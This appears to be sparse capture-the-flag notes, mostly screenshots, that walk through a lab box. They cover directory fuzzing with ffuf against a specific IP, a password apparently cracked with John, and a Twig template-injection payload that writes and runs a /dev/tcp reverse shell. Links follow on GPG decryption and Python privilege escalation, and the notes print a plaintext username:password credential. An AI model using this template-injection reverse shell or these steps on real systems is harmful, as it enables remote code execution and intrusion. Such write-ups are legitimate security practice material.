 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bbfefa19-696d-448d-a6bd-246dc81125ba)

https://hackware.ru/?p=13801#410

GPG

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1aea425a-35d0-48f9-b350-86b23d0d7b66)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97a39e8a-3a19-4f40-83df-e96b5990b497)

https://superuser.com/questions/920793/how-to-specify-private-key-when-decrypting-a-file-using-gnupg

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/49f94d47-ff23-42bc-8fe2-516a20ed51a9)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/






